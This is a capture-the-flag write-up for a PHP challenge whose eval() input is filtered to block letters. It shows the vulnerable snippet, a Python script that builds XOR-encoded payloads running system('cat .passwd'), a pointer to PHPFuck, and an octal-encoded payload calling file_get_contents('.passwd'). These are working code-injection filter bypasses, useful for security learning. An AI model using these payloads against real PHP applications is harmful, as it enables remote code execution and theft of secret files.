 
**Non-alphanumeric PHP code**

Note : the flag is in .passwd file.


```php
<?php
    
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
```

This challenge use `eval()` function, but filter all the word.


There are several ways to solve the challenge

My first method was to use `xor` operation to insert word in the challenge

Eg: `(',' ^ '@').('(' ^ '[')` return the string `ls`

The challenge block a few specific characters beside words, and these chars `(`, `)`, `.` don't need to use xor.

There are several ways to call a function in PHP.

-    function(). This is the most common way.
-    $variable = “functionName”; $variable();
-    (**functionname**)(**functioncontent**)

The first and second method didn't work. We want to call the PHP legacy function.
```py
def find_xor_pairs(target_char):
    target_value = ord(target_char)
    valid_pairs = []
    blacklist = ['\\', '`','^','\'']
    for i in range(32, 127):  
        for j in range(32, 127):
            if chr(i).isalpha() or chr(j).isalpha():
                continue 
            if chr(i) in blacklist or chr(j) in blacklist:
                continue
            if (i ^ j) == target_value:
                valid_pairs.append((i, j))
    
    return valid_pairs

def xor(command):
    payload = []
    for char in command:
        if char == "(" or char == ")" or char == ".":
            payload.append(f"('{char}')")
            continue
        pairs = find_xor_pairs(char)
        if pairs:
            pair = pairs[0]
            payload.append(f"('{chr(pair[0])}'^'{chr(pair[1])}')")
    return '.'.join(payload)
        
command1 = 'system'
command2 = 'cat .passwd'
print(f"({xor(command1)})({xor(command2)})")
```

The second way is to use [PHPFuck](https://github.com/splitline/PHPFuck), this one is pretty straight foward.

The third way is to use octal encoding
```
"\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\56\160\141\163\163\167\144")
```